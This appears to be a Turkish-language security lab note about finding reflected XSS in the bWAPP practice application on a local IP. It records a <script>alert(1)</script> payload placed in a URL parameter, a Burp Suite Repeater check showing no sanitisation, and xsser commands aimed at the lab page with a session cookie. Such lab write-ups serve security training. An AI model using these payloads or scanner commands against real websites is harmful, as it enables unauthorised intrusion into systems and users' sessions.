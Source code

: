 ### Mesela ben ONUR yazan yere url ' de 
```
<script>alert(1)</script>
```
### yazsam ne olur 

![[Pasted image 20240506222410.png]]
![[Pasted image 20240506222424.png]]
### Bunu direk source code yazdı herhangi bir engelleme yapmadan. Belkide yorumladı interprite it

---

## Bu Normal Hali
![[Pasted image 20240506222809.png]]
### Bunu aldık Repeater'A göderdik ve
![[Pasted image 20240506222915.png]]
![[Pasted image 20240506222942.png]]

## Burp Suite bunu script block olarak yorumladı
# Normal şartlarda bunu bir validation veya sanitisation uygulanmış olsa burada hata vermesi gerekirdi fakat hiç tepki vermiyor.
## Burada XSS var diye yorumladık ve bunu #xsser 'e veriyoruz.


![[Pasted image 20240506223405.png]]
```
xsser --url "http://10.0.2.6/bWAPP/htmli_get.php?firstname=XSS&lastname=KARAN&form=submit" --cookie="security_level=0; PHPSESSID=2163c832bb9a4cfa2d2cb8de5a59d346"
```

### <span style="background:#d4b106">xsser --url "http://10.0.2.6/bWAPP/htmli_get.php?firstname=XSS&lastname=KARAN&form=submit" --cookie="security_level=0; PHPSESSID=2163c832bb9a4cfa2d2cb8de5a59d346"</span>

![[Pasted image 20240506223940.png]]


```
xsser --url "http://10.0.2.6/bWAPP/htmli_get.php?firstname=XSS&lastname=KARAN&form=submit" --cookie="security_level=0; PHPSESSID=2163c832bb9a4cfa2d2cb8de5a59d346" --Fp "<script>alert(1)</script>"

```
